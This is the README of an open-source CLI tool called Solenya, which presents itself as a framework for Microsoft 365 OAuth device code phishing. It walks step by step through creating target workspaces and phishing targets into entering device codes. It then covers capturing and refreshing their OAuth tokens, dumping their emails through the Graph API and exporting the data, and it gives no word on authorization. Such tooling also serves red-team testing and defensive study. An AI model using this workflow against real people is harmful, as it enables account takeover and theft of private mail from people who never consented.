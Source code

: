 <img src="https://img.shields.io/github/issues/CultCornholio/solenya">  <img src="https://img.shields.io/github/forks/CultCornholio/solenya">   <img src="https://img.shields.io/github/stars/CultCornholio/solenya">   <img src="https://img.shields.io/github/license/CultCornholio/solenya">

# Solenya - M365 Device Code Phishing Framework

<p align="center">
    <img src="/images/pickleRick.png">
</p>


Solenya is a cli tool which provides a framework to perform M365 device code phishing. As defined in RFC8628, an attacker can perform a social engineering attack by instructing a target to register a malicious application using a device code. 

## Prerequisites
By default, Microsoft allows any user to add new applications to their M365 profile. Below, is a screenshot of a fresh deployment of an Azure subscription.

![default_permissions](/images/default_permissions.png)

<p align="center">
    <img src="/images/implication-dennis.gif">
</p>

## Installation

**The package requires Python 3.7 or higher.**

Install latest version from PyPI: ```pip install solenya```

## Usage

### Creating a Workspace
The ```wsp``` command is responsible for initializing the WorkSpace. The tool leverages an SQLite database to store target information. To create a workspace run:
```
$ sol wsp <client_ID> -t <target_name>
```
### Managing Targets
The ```target``` command can add additional targets and remove or reset existing ones. The command will automatically reach out to Microsoft Online API and create a User Code and a Device Code, which will both be stored in the database. 
```
$ sol target <target_names>
```
The ```switch``` command switches between active targets in the WorkSpace.
```
$ sol switch <target_name>
```
### Gathering OAuth Access Tokens 
The ```auth``` command is responsible for authenticating targets registered with the WorkSpace. Run the ```phish``` sub command and wait for the your targets to enter the device code on their end.
```
$ sol auth phish --monitor --all
```
Once the Refresh and Access tokens are obtained they will be saved to the database. The Access token can be refreshed using the ```refresh command```.
```
$ sol auth refresh --all
```
### Dumping Data
Once the target is authenticated the ```dump``` command can be used to dump information from the Graph API.
```
$ sol dump emails --all
```
### Exporting Targets
The information in the database can be exported using the ```export``` command.
```
$ sol export --all
```
## Contact
- Contact us at cult.cornholio@gmail.com or open up a new Issue on GitHub.

## Acknowledgements
- [Optiv - Microsoft 365 OAuth Device Code Flow and Phishing](https://www.optiv.com/insights/source-zero/blog/microsoft-365-oauth-device-code-flow-and-phishing)
- [SecureWorks - OAuth’s Device Code Flow Abused in Phishing Attacks](https://www.secureworks.com/blog/oauths-device-code-flow-abused-in-phishing-attacks)
- [Jenko Hwong - New Phishing Attacks Exploiting OAuth Authorization Flows](https://www.netskope.com/blog/new-phishing-attacks-exploiting-oauth-authorization-flows-part-1)
- [Dirk-jan Mollema - ROADtools](https://dirkjanm.io/introducing-roadtools-and-roadrecon-azure-ad-exploration-framework/)
- [Office 365 Blog](https://o365blog.com/post/phishing/)
- [rvrsh3ll - TokenTactics](https://github.com/rvrsh3ll/TokenTactics)



